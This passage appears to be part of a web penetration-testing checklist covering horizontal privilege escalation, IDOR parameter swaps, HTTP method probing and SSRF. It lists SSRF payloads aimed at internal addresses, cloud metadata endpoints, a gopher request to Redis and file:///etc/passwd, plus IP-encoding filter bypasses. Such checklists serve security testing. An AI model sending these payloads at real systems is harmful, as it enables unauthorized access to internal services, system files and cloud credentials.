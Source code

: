 - [ ] **Horizontal privilege escalation**
  - [ ] Access other users' data
  - [ ] Modify user ID parameters
  - [ ] Session token manipulation

#### Insecure Direct Object References (IDOR)
- [ ] **Parameter manipulation**
  ```
  /user/profile?id=123 → /user/profile?id=124
  /api/user/123 → /api/user/124
  /document/download/456 → /document/download/457
  ```

- [ ] **HTTP method testing**
  ```bash
  # Try different HTTP methods
  GET /api/user/123
  POST /api/user/123
  PUT /api/user/123
  DELETE /api/user/123
  ```

### 🌐 Server-Side Request Forgery (SSRF)

#### Basic SSRF Testing
- [ ] **Internal network access**
  ```
  http://127.0.0.1:80
  http://localhost:22
  http://192.168.1.1:80
  ```

- [ ] **Cloud metadata access**
  ```
  http://169.254.169.254/latest/meta-data/
  http://metadata.google.internal/computeMetadata/v1/
  ```

#### Advanced SSRF Techniques
- [ ] **Protocol smuggling**
  ```
  gopher://127.0.0.1:6379/_INFO
  file:///etc/passwd
  dict://127.0.0.1:11211/
  ```

- [ ] **Filter bypasses**
  ```
  http://127.1:80
  http://0x7f000001:80
  http://2130706433:80
  ```

### 🔄 Cross-Site Request Forgery (CSRF)
